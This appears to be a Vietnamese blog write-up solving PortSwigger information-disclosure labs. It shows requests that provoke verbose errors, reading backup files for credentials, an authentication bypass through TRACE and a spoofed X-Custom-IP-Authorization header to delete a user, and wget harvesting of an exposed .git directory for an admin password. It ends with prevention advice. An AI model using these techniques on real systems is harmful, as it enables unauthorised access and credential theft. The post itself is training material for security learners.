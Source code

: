 ```yaml
---
title: "[PortSwigger Lab] - Information Disclosure Vulnerabilities"
description: Solution of Information Disclosure Vulnerabilities Lab
date: 2025-06-12 20:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, information disclosure]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-12-portswigger-lab-information-disclosure-vulnerabilities/information-disclosure-vulnerabilities.png
    alt: Information Disclosure Vulnerabilities
---
```


## Introduction
---
### **Information Disclosure Vulnerabilities**
- **Information Disclosure Vulnerabilities** hay còn gọi là **information leakage**, là khi một website vô tình tiết lộ thông tin nhạy cảm cho người dùng — thường là không có chủ đích.

### How do information disclosure vulnerabilities arise?
1. Không loại bỏ nội dung nội bộ khỏi nội dung công khai
    - Lập trình viên để lại **comment** trong **HTML** như:

    ```html
    <!-- TODO: remove debug endpoint /debug-info before release -->
    ```
    - Dữ liệu test hoặc file ẩn bị lộ trong môi trường **production**.

2. Cấu hình bảo mật không đúng hoặc không đầy đủ
    - Không tắt chế độ **debug**, khiến **hacker** thấy thông tin như **stack trace**, phiên bản **framework**, v.v.
    - Cấu hình mặc định **(default config)** tiết lộ thông tin kỹ thuật như cấu trúc thư mục, lỗi **SQL**, **file .env**, v.v.
    - **Web server** trả về lỗi chi tiết **(verbose error)**, giúp kẻ tấn công suy đoán cấu trúc **backend**.

3. Thiết kế và hành vi ứng dụng có sai sót
    - Ứng dụng trả về lỗi khác nhau với tài khoản đúng và sai, giúp kẻ tấn công **brute-force username/email**:
    - Phản hồi HTTP 200/403/404 khác nhau tùy vào trạng thái tài nguyên (giúp dò đoán đường dẫn, file, ID...).

## Solve Information Disclosure Vulnerabilities Lab
---
### Lab: Information disclosure in error messages
- Truy cập 1 **product page** bất kỳ
- Thay đổi `product id` thành dạng **string** => Ứng dụng hiển thị lỗi kèm **version** của **framework**

Request
```
https://0a0b00f20356c863832f52f200930024.web-security-academy.net/product?productId=xnxx
```

Response
```
Internal Server Error: java.lang.NumberFormatException: For input string: "xnxx"
...

Apache Struts 2 2.3.31
```
- Copy và Submit

### Lab: Information disclosure on debug page
- Truy cập trang web và **inspect source**
- Tìm từ khóa `debug` ở phần **source** 
- **Enter** cho đến khi thấy

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```
- Truy cập đến `/cgi-bin/phpinfo.php` 
- Lấy `SECRET_KEY` và **submit**

### Lab: Source code disclosure via backup files

| Kiểu backup phổ biến                 | Ví dụ tên file                   |
| ------------------------------------ | -------------------------------- |
| Thêm dấu `~` vào cuối                | `index.php~`                     |
| Đổi đuôi sang `.bak`, `.old`, `.tmp` | `index.php.bak`, `config.js.old` |

- Truy cập `/robots.txt` là file hướng dẫn **google bot** tài nguyên nào được phép **index**
- Quan sát ta thấy đường dẫn đến `/backup`

```html
User-agent: *
Disallow: /backup
```
- Truy cập trang `/backup` và đọc mã nguồn của file bên trong nó

```java
ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "ha2e7u15efm2hbyxnub5ype2d16n73sp"
        ).withAutoCommit();
```
- Lấy password và submit

### Lab: Authentication bypass via information disclosure
- Truy cập trang web và gửi request đến **Burp Repeater**
- Thay đổi **method** thành `TRACE` và gửi lại request
    - TRACE là một phương thức chẩn đoán **(diagnostic)** trong **HTTP**.
    - Khi bạn gửi một yêu cầu `TRACE` tới máy chủ, nó sẽ phản hồi lại chính xác nội dung của yêu cầu bạn đã gửi.

```http
TRACE / HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
```
- Quan sát **response** có chứa trường `X-Custom-IP-Authorization: 118.69.31.247`
- Đây không phải là **header** tiêu chuẩn của **HTTP** mà là **custom header**
- Ứng dụng có thể đã sử dụng trường này để cho phép hoặc từ chối truy cập nếu địa chỉ **IP** được xác định là `"được phép"`
- Thay đổi request đến `/admin` và thêm trường này với **IP** là `127.0.0.1`

```http
TRACE /admin HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Gửi lại **request**
- Quan sát **response** chứa đường dẫn để xóa user `carlos`
- Gửi tiếp request để xóa user `carlos`

```http
TRACE /admin/delete?username=carlos HTTP/2
Host: 0a6d006f049637c98050a85a008c001e.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1
```
- Ứng dụng sẽ xác nhận rằng request đến từ `127.0.0.1` là request cục bộ, nhầm lẫn là admin nên cho phép truy cập tài nguyên trang **admin**

### Lab: Information disclosure in version control history
- Truy cập đến `/.git` => Lỗi cấu hình => Lộ file `.git`
- Tải file `.git` đó về

```zsh
wget -r https://0a41004e04a009548185fcda0083004e.web-security-academy.net/.git
```

#### **Idea 1:** Using **git** command
- Truy câp đến thư mục `.git` **(chưa có "git" thì lo mà tải đi nhá)**
- Xem **log** của **repository**

```zsh
git log
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 0591a2262f16349fbc79f83e1588f13877d6afbd
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

- Ta thấy **commit** có id `f5ebf4a50140e3538a518029f7c9f6ab8318c201` đã 
`Remove admin password from config` => Ta có thể xem sự thay đổi tại commit này để xem **password** bị xóa là gì

```zsh
git show f5ebf4a50140e3538a518029f7c9f6ab8318c201
```

```
commit f5ebf4a50140e3538a518029f7c9f6ab8318c201 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index ee7c7c9..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

- Author đã xóa `ADMIN_PASSWORD=d0udappaq6625y2dwbi8` và thay bằng `ADMIN_PASSWORD=env('ADMIN_PASSWORD')`
- Đăng nhập bằng tài khoản **admin** với **password** vừa tìm được
- Xóa user `carlos`

#### **Idea 2:** Using **Git Cola**
-[**Git Cola**](https://git-cola.github.io/downloads.html) Là một ứng dụng **GUI** mã nguồn mở giúp bạn sử dụng Git mà không cần dùng dòng lệnh **(terminal)**.
- Khởi động **Git Cola**
- Chọn thư mục chứa `.git` cần xem
- Click vào `admin.conf`, chọn **Commit Tab** > **Undo Last Commit**
- Click vào `admin.conf` để xem `password`

```
deleted file mode 100644
@@ -1 +0,0 @@
-ADMIN_PASSWORD=d0udappaq6625y2dwbi8
```

## Prevent
---
1. Xác định rõ thông tin nào là "nhạy cảm"
2. Kiểm tra mã nguồn để phát hiện rò rỉ thông tin
3. Sử dụng thông báo lỗi chung chung
4. Tắt tính năng debug, test và logging nhạy cảm ở production
5. Cấu hình kỹ lưỡng các công nghệ bên thứ ba

---
Goodluck! 🍀🍀🍀 